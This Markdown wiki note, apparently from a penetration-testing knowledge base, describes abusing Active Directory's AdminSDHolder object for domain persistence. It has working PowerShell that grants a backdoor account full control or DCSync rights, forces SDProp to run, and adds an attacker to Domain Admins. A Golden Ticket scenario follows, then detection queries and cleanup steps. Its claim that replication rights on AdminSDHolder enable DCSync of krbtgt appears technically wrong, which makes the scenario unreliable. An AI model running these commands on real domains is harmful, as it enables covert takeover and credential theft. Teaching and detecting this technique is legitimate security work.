

# AdminSDHolder Abuse

## 1. Introduction and Architectural Overview

In Active Directory (AD) environments, maintaining persistence after gaining Domain Admin or equivalent privileges is a primary objective for advanced threat actors. The **AdminSDHolder** object serves as one of the most powerful, stealthy, and deeply ingrained mechanisms for domain-level persistence. 

Understanding AdminSDHolder requires understanding how Active Directory protects its most highly privileged users and groups. By default, AD considers certain groups (e.g., Domain Admins, Enterprise Admins, Schema Admins, Account Operators) to be "Protected Groups." To prevent unauthorized delegation or accidental modification of these groups' Access Control Lists (ACLs), AD employs an automatic security descriptor enforcement mechanism. 

The mechanism revolves around three core components:
1. **The AdminSDHolder Object**: Located at `CN=AdminSDHolder,CN=System,DC=domain,DC=com`. This object acts as a security template.
2. **The SDProp Process (Security Descriptor Propagator)**: A background thread running on the Primary Domain Controller (PDC) Emulator.
3. **The `adminCount` Attribute**: An attribute set to `1` on objects that belong (or previously belonged) to a Protected Group.

When an attacker modifies the ACL of the AdminSDHolder object (e.g., granting "Full Control" to a standard, unprivileged user account), the SDProp process will automatically copy this malicious ACL to every single protected object in the domain. This provides the attacker with an unkillable backdoor: even if incident responders remove the attacker from the Domain Admins group, SDProp will automatically reinstate the attacker's rights over the Domain Admins group within an hour.

---

## 2. The Mechanics of SDProp and AdminSDHolder

### 2.1 The SDProp Thread
The **SDProp (Security Descriptor Propagator)** is a thread that runs exclusively on the Domain Controller holding the **PDC Emulator FSMO role**. 

By default, SDProp wakes up every **60 minutes**. When it activates, it performs the following routine:
1. It queries the domain for all objects where `adminCount=1` (or calculates current members of protected groups).
2. It compares the Security Descriptor (ACL) of these protected objects against the Security Descriptor of the `AdminSDHolder` object.
3. If there is any discrepancy, SDProp aggressively overwrites the ACL of the protected object with the ACL of `AdminSDHolder`. 
4. It disables inheritance on the protected objects to ensure that organizational unit (OU) level permissions do not override the template.

### 2.2 Modifying the Propagation Frequency
The default 60-minute interval can be heavily modified by attackers to speed up persistence deployment. This is controlled via a registry key on the PDC emulator:
```text
HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters\AdminSDProtectFrequency
```
This key accepts values from 60 (seconds) to 7200 (seconds). Attackers may drop this to 1-3 minutes during an active engagement to quickly regain access if an administrator strips their rights.

---

## 3. Visual Architecture



---

## 4. Attack Execution: Step-by-Step

To abuse AdminSDHolder, the attacker must currently possess privileges sufficient to modify its ACL (typically Domain Admin, Enterprise Admin, or a user with generic write over the AdminSDHolder object).

### 4.1 Modifying the AdminSDHolder ACL via PowerView
Using PowerView (from the PowerSploit framework), attackers can easily inject a new Access Control Entry (ACE).

```powershell
# Import PowerView
Import-Module .\PowerView.ps1

# Grant an unprivileged user (e.g., 'backdoor_svc') FullControl over AdminSDHolder
Add-ObjectAcl -TargetDistinguishedName "CN=AdminSDHolder,CN=System,DC=corp,DC=local" `
              -PrincipalSamAccountName backdoor_svc `
              -Rights All
```

### 4.2 Using Active Directory Module
If native RSAT tools are available, the Active Directory PowerShell module can be used:

```powershell
Import-Module ActiveDirectory
$User = Get-ADUser -Identity "backdoor_svc"
$SDHolder = Get-ADObject -Identity "CN=AdminSDHolder,CN=System,DC=corp,DC=local" -Properties ntSecurityDescriptor

$ACL = $SDHolder.ntSecurityDescriptor
$Ar = New-Object System.Security.AccessControl.ActiveDirectoryAccessRule(
    $User.SID, 
    [System.DirectoryServices.ActiveDirectoryRights]::GenericAll, 
    [System.Security.AccessControl.AccessControlType]::Allow)

$ACL.AddAccessRule($Ar)
Set-ADObject -Identity "CN=AdminSDHolder,CN=System,DC=corp,DC=local" -Replace @{ntSecurityDescriptor=$ACL}
```

### 4.3 Triggering SDProp Manually
Attackers don't want to wait 60 minutes for the backdoor to apply. They can force the PDC to execute the SDProp process immediately by invoking an LDAP modification using the `RunProtectAdminGroupsTask` rootDSE operation.

```powershell
# Using LDP.exe or PowerShell to trigger SDProp
$RootDSE = [ADSI]"LDAP://RootDSE"
$RootDSE.Put("RunProtectAdminGroupsTask", "1")
$RootDSE.SetInfo()
```
*Note: This generates no logs by itself, making it an incredibly stealthy way to force the replication.*

### 4.4 Exploiting the Backdoor
Once SDProp runs, the `backdoor_svc` user has `GenericAll` (Full Control) over all protected groups and users. 
The attacker can now use `backdoor_svc` to directly add themselves to Domain Admins, or reset the password of the krbtgt account to forge Golden Tickets, or even perform a DCSync.

```powershell
# Add attacker to Domain Admins using the persistent backdoor account
net group "Domain Admins" attacker_user /add /domain
```

---

## 5. Stealth and Advanced Variants

Instead of granting `GenericAll` (which is highly visible and easily flagged by AD scanners like BloodHound), attackers can grant highly specific, granular rights to the AdminSDHolder object.

**DS-Replication-Get-Changes (DCSync) Persistence:**
By adding `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` directly to the AdminSDHolder ACL for an unprivileged user, the user will inherit the ability to perform DCSync attacks against *any* Domain Controller for protected accounts. Because DCSync operates at the domain root, applying this at AdminSDHolder allows the attacker to extract the NTLM hash of the `Administrator` or `krbtgt` without ever being a Domain Admin.

**WriteProperty / ResetPassword:**
Instead of full control, attackers can assign `ForceChangePassword` rights. This allows the backdoor account to reset the password of the Default Domain Administrator at will.

---

## 6. Detection and Threat Hunting

Detecting AdminSDHolder abuse requires auditing directory changes and scrutinizing the ACL of the AdminSDHolder object.

### 6.1 Event Log Detections (Event ID 5136)
To detect this, Directory Service Changes auditing must be enabled. 
- **Event ID 5136:** A directory service object was modified.
Focus your SIEM queries on modifications where the target object is `CN=AdminSDHolder,CN=System...`.

```kql
// Microsoft Sentinel KQL query example
SecurityEvent
| where EventID == 5136
| where ObjectDN contains "CN=AdminSDHolder,CN=System"
| project TimeGenerated, Account, ObjectDN, AttributeLDAPDisplayName
```

### 6.2 Analyzing the adminCount Attribute
A common mistake administrators make when removing a user from a protected group (like Domain Admins) is forgetting to change their `adminCount` attribute back to `0` and re-enabling ACL inheritance. 

Hunting for orphaned `adminCount=1` objects:
```powershell
Get-ADUser -Filter {adminCount -eq 1} -Properties adminCount | Select Name, adminCount
```
*If a standard user has adminCount=1, SDProp is applying the AdminSDHolder template to them, meaning an attacker controlling AdminSDHolder controls that user.*

---

## 7. Remediation and Cleanup

If AdminSDHolder abuse is discovered during incident response, removing the attacker's rights is a multi-step process. Simply removing them from Domain Admins is useless, as SDProp will re-apply the malicious ACL.

1. **Clean the AdminSDHolder Object:**
   Open ADSI Edit (`adsiedit.msc`), navigate to `Configuration > System > AdminSDHolder`. Right-click, select Properties, go to the Security tab, and remove the unauthorized ACEs.
   
2. **Force SDProp to Run:**
   Execute `RunProtectAdminGroupsTask` on the RootDSE to push the cleaned template to all protected objects immediately.

3. **Reset adminCount on Orphaned Objects:**
   Identify users who are no longer in protected groups but still have `adminCount=1`. Set the attribute to `0` and explicitly check the "Include inheritable permissions from this object's parent" box in their Security settings.

4. **Verify the SDProp Frequency:**
   Check the `AdminSDProtectFrequency` registry key on the PDC Emulator. If it exists and is set to a low value (e.g., 60 seconds), delete the key to restore the default 60-minute behavior.

---

## Real-World Attack Scenario

In a post-exploitation phase of a penetration test, the attacker had successfully obtained Domain Admin privileges and compromised the primary Domain Controller. Anticipating that the incident response team might soon discover the breach and reset the compromised DA passwords, the attacker needed an unkillable persistence mechanism.

**The Context**
The attacker decided to utilize the `AdminSDHolder` template to maintain persistence. Instead of simply granting a rogue account full control, they opted for a stealthier approach: granting the `DS-Replication-Get-Changes` right to a standard, unassuming service account used for internal printers (`svc_printers`).

**The Execution**
1.  **ACL Modification:** From their established foothold as Domain Admin, the attacker utilized PowerView to modify the ACL of the `AdminSDHolder` object, granting the DCSync rights to the printer service account.
    `Add-DomainObjectAcl -TargetDistinguishedName "CN=AdminSDHolder,CN=System,DC=corp,DC=local" -PrincipalSamAccountName svc_printers -Rights DCSync`
2.  **Triggering SDProp:** To avoid waiting 60 minutes for the SDProp process to run naturally, the attacker manually forced an immediate update via LDAP.
    `$RootDSE = [ADSI]"LDAP://RootDSE"; $RootDSE.Put("RunProtectAdminGroupsTask", "1"); $RootDSE.SetInfo()`
3.  **The Eviction and Return:** Two days later, the IR team detected anomalous behavior and reset all Domain Admin passwords, effectively locking the attacker out of their primary accounts. However, they failed to audit the `AdminSDHolder` ACL.
4.  **The Outcome:** The attacker, retaining access to the `svc_printers` account, executed Impacket's `secretsdump.py` against the Domain Controller. Because SDProp had applied the `AdminSDHolder` template to all protected objects, `svc_printers` now had the right to DCSync the `krbtgt` hash. The attacker successfully extracted the hash and forged a new Golden Ticket, instantly regaining full control of the domain.

## 8. Chaining Opportunities

- **[[23 - BloodHound — Attack Path Analysis]]**: BloodHound can automatically detect AdminSDHolder persistence paths. Attackers use it to verify their backdoor applied correctly, while defenders use it to find rogue ACLs.
- **[[20 - Mimikatz — Credential Dumping]]**: AdminSDHolder is often used to grant DCSync rights, which Mimikatz then abuses to dump the `krbtgt` hash.
- **[[24 - Domain Privilege Escalation via Trust Relationships]]**: If an attacker compromises a child domain, modifying the child's AdminSDHolder can sometimes be part of a broader strategy to solidify presence before forging a path to the forest root.

## 9. Related Notes
- [[18 - Active Directory ACL and ACE Abuse]]
- [[20 - Mimikatz — Credential Dumping]]
- [[23 - BloodHound — Attack Path Analysis]]
- [[25 - Golden and Silver Tickets]]
